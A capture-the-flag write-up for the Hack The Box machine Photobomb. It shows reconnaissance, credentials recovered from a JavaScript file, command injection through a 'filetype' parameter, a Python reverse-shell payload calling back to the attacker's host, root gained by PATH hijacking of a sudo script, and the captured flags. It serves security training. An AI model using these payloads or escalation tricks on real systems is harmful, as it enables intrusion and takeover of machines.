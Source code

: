 ```yaml
---
title: Hackthebox Photobomb Writeup
slug: hackthebox-photobomb-writeup
description: Hackthebox released a new machine called photobomb. On this machine, we got the web server where there is a JS file where we get the username and password to access the protected route, then abuse the filetype parameter to get a rev shell as photobomb and for Privilege Escalation using path traverse to get a root shell.
date: 2022-10-10
image: hackthebox-photobomb-writeup.webp
---
```



## Nmap

```js
❯ nmap -sC -sV -oA nmap/result 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-10 15:17 IST
Nmap scan report for 10.10.11.182
Host is up (0.085s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.68 seconds
```

Nmap tell us there are two open ports `22 ssh` and `80 http` and HTTP port redirect us to `http://photobomb.htb/`

Let's quickly add this in our `/etc/hosts` file

```js
❯ cat /etc/hosts
127.0.0.1       localhost examzy.com
255.255.255.255 broadcasthost
::1             localhost
10.10.11.182    photobomb.htb
```

## Port-80

There is a simple `HTML` page with a link which going to `/printer` but it's asking for `password` that's we don't know

<FixTheImageURL src="web.png" slug="hackthebox-photobomb-writeup" />

<FixTheImageURL src="web1.png" slug="hackthebox-photobomb-writeup" />

After that, I view the source code of the website that's include the JS file called `photobomb.js`

<FixTheImageURL src="web2.png" slug="hackthebox-photobomb-writeup" />

Viewing that file, we got the `username` and `password`

<FixTheImageURL src="web3.png" slug="hackthebox-photobomb-writeup" />

Now let's try to log in with that `username` and `password`

```js
username = pH0t0
password = b0Mb!
```

After login, we see that there is an option to `download` photo to print

<FixTheImageURL src="web4.png" slug="hackthebox-photobomb-writeup" />

I capture that request in `burp` and try some `command injection` in all parameters

I try the payload in all `parameter` because I don't know in which parameter there will be `command injection`

But before that start your `python web server`

```js
> python3 -m http.server 80
```

<FixTheImageURL src="burp.png" slug="hackthebox-photobomb-writeup" />

This conforms that `photo` and `dimensions` parameter is not vulnerable

<FixTheImageURL src="burp1.png" slug="hackthebox-photobomb-writeup" />

## Command Injection

Let's try with `file` type parameter

```js
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png;curl+10.10.XX.XX/dedsec&dimensions=3000x2000
```

<FixTheImageURL src="burp2.png" slug="hackthebox-photobomb-writeup" />

And we got the hit, it's mean we can get `rev shell` with that

<FixTheImageURL src="cmd.png" slug="hackthebox-photobomb-writeup" />

## RCE

I try `bash` payload, but that didn't work, so let's try `python` one

```js
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png%3bexport+RHOST%3d"10.10.XX.XX"%3bexport+RPORT%3d9001%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'&dimensions=3000x2000
```

Before that, start your `net cat` listener

```js
> nc -nvlp 9001
```

It's hanging that `good sign`, let's check the net cat

<FixTheImageURL src="burp3.png" slug="hackthebox-photobomb-writeup" />

Boom 🎉 we got the shell as `wizard` user

<FixTheImageURL src="cmd1.png" slug="hackthebox-photobomb-writeup" />

Got the `user.txt`

```js
wizard@photobomb:~/photobomb$ cd ~
cd ~
wizard@photobomb:~$ cat user.txt
cat user.txt
4af8270c5c6ddff5d13ccb3ee2d7193a
```

## Privilege Escalation

Before running `linpeas` let's try with `sudo -l`

And we can see there is `cleanup.sh` script which we can run with `sudo` privilege

```js
wizard@photobomb:~$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

And the content of the script is `straight forward`, it's just taking the log file and move their content into `photobomb.log.old` and then use truncate to clear `photobomb.log` to 0 byte

but if you see `clearly` it's not using `absolute path` like cd, find we can take advantage of that and `traverse the path` of that `binaries`

```js
wizard@photobomb:~$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Just add `/bin/bash` in cd file and give read, write, execute permission

I also create find file because if one failed we have `backup` to get shell as `root`

Now just run that file with `sudo` permission and set the `PATH` to `/temp` directory

```js
wizard@photobomb:~$ echo "/bin/bash" > /tmp/cd
echo "/bin/bash" > /tmp/cd
wizard@photobomb:~$ echo "/bin/bash" > /tmp/find
echo "/bin/bash" > /tmp/find
wizard@photobomb:~$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
cat /root/root.txt
0777d5279a599ddc20bb5edf5253d8b6
```
